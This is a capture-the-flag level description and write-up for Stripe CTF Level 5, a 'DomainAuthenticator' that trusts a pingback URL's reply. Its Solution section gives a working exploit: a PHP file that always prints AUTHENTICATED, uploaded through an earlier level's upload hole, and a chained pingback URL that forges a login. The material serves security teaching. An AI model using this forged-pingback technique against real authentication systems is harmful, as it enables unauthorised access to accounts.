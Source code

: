 ## Level 5

Many attempts have been made at creating a federated identity system for the web (see [OpenID](http://openid.net/), for example). However, none of them have been successful. Until today.

The DomainAuthenticator is based off a novel protocol for establishing identities. To authenticate to a site, you simply provide it username, password, and pingback URL. The site posts your credentials to the pingback URL, which returns either `AUTHENTICATED` or `DENIED`. If `AUTHENTICATED`, the site considers you signed in as a user for the pingback domain.

You can check out the Stripe CTF DomainAuthenticator instance here: https://level05-1.stripe-ctf.com/user-xxxxxxxxxx. We've been using it to distribute the password to access Level 6. If you could only somehow authenticate as a user of a level05 machine...

To avoid nefarious exploits, the machine hosting the DomainAuthenticator has very locked down network access. It can only make outbound requests to other stripe-ctf.com servers. Though, you've heard that someone forgot to internally firewall off the high ports from the Level 2 server.

Interesting in setting up your own DomainAuthenticator? You can grab the source from `git clone https://level05-1.stripe-ctf.com/user-xxxxxxxxxx/level05-code`, or by reading on below.

### Running

- Install bundler: `gem install bundler`
- Run srv.rb: `./srv.rb`
- Point your browser to `localhost:4567`

### Solution

  * Upload the following `index.php` PHP to your endpoint from Level 2:
  
  ```php
  #!/usr/bin/env php
  <?php
  echo "AUTHENTICATED\n";
  ```
  * Set `pingback` to `https://level05-1.stripe-ctf.com/user-xxxxxxxxxx/?pingback=https://level02-1.stripe-ctf.com/user-xxxxxxxxxx/uploads/`

Originally posted at [https://stripe-ctf.com/levels/5](https://stripe-ctf.com/levels/5).
